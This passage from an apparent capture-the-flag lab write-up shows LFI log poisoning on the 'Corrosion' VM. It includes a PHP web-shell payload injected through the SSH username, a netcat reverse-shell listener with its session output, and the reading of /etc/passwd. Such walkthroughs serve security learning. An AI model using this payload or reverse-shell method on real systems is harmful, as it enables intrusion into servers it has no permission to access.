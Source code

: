 ```bash
```

I then tried to read the contents of `/var/log/auth.log` file and it worked. Awesome..So what next?

> _/var/log/auth. log – Contains system authorization information, including user logins and authentication machinsm that were used._

![image](https://user-images.githubusercontent.com/58165365/149883967-83cefbac-f655-4b23-b7b0-169e6a300ca4.png)

We can try log poisoning attack and see if it actually works.

> _Log Poisoning is a common technique used to gain a reverse shell from a LFI vulnerability._

If we try ssh as root or hackerman, we can see logs for the same

![image](https://user-images.githubusercontent.com/58165365/149884021-7c82ee90-cb7f-413a-9dc0-cc51627b85d8.png)

![image](https://user-images.githubusercontent.com/58165365/149884008-3a299304-0afc-4354-a888-55881d2090ef.png)

Writing invalidated user input to log files can allow an attacker to forge log entries or inject malicious content into the logs. In this case, we can try inject a php payload as the username and see if it will be rendered in the log files.

`ssh '<?php system($_GET["cmd"]); ?>'@192.168.56.151`

![image](https://user-images.githubusercontent.com/58165365/149884045-cdbdacc6-5ebc-4d89-a545-56deb6b550f9.png)

![image](https://user-images.githubusercontent.com/58165365/149884037-2e28d58c-aae5-4179-bfed-4d42b6da4a86.png)

This time round , we see the user is unknown. So the payload actually worked. We can try append the `cmd` parameter and test whether we can run the `id` command.

![image](https://user-images.githubusercontent.com/58165365/149884153-015beb74-eead-46aa-8ad4-08b8f33ad15f.png)

Awesome...Since it works, we can then slap in a bash-onliner and hopefully attain RCE. In my case, i had to url-encode it. (_You can do this on burp on online encoders_). I then started a netcat listener in the background.

![image](https://user-images.githubusercontent.com/58165365/149884140-79a2dfed-7783-4d5e-a20d-670029e71284.png)

```bash
➜  nc -lnvp 9999
listening on [any] 9999 ...
connect to [192.168.56.106] from (UNKNOWN) [192.168.56.151] 53690
bash: cannot set terminal process group (881): Inappropriate ioctl for device
bash: no job control in this shell
www-data@corrosion:/var/www/html/blog-post/archives$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@corrosion:/var/www/html/blog-post/archives$ uname -a
uname -a
Linux corrosion 5.11.0-25-generic #27-Ubuntu SMP Fri Jul 9 23:06:29 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
www-data@corrosion:/var/www/html/blog-post/archives$ cat /etc/passwd | grep home
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
cups-pk-helper:x:114:121:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
randy:x:1000:1000:randy,,,:/home/randy:/bin/bash
```
